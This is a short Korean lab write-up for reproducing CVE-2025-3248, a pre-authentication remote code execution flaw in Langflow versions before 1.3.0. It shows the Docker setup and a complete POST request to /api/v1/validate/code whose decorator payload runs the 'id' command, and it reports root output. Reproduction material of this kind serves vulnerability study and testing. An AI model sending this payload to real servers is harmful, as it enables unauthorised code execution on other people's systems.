


# Langflow validate/code API 사전 인증 원격 코드 실행 취약점 (CVE-2025-3248)


Langflow는 LangChain 기반의 오픈소스 저코드 LLM 애프리케이션 빌더이다.

Langflow 1.3.0 이전 버전에서, /api/v1/validate/code 엔드포인트가, 인증되지 않은 공격자가 POST 요청만으로 서버에서 임의의 Python 코드를 실행할 수 있다.

참고자료
- https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
- https://github.com/langflow-ai/langflow/releases/tag/1.3.0
- https://github.com/langflow-ai/langflow/pull/6911

## 환경 세팅
Langflow 1.2.0 서버를 시작하려면 다음 명령을 실행한다.
```
docker compose up -d
```

서버가 접속되면 Langflow 에 접속할 수 있다.
`http://your-ip:7860`.



## 취약점 재현
취약점 재현을 위해, 다음과 같이 악의적인 Python 함수 정의가 포함된 POST 요청을 `/api/v1/validate/code` 엔드포인트로 전송한다.


```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```


> 인증되지 않은 상태에서 `/api/v1/validate/code` 엔드포인트로 조작된 Python 함수 정의를 전송한 결과, 서버 측에서 `id` 명령이 실행되었으며 응답에서 `uid=0(root)`와 `gid=0(root)`가 확인되었다.
> 이를 통해 Langflow 1.2.0 환경에서 사전 인증 원격 코드 실행 취약점이 재현되는 것을 확인할 수 있다.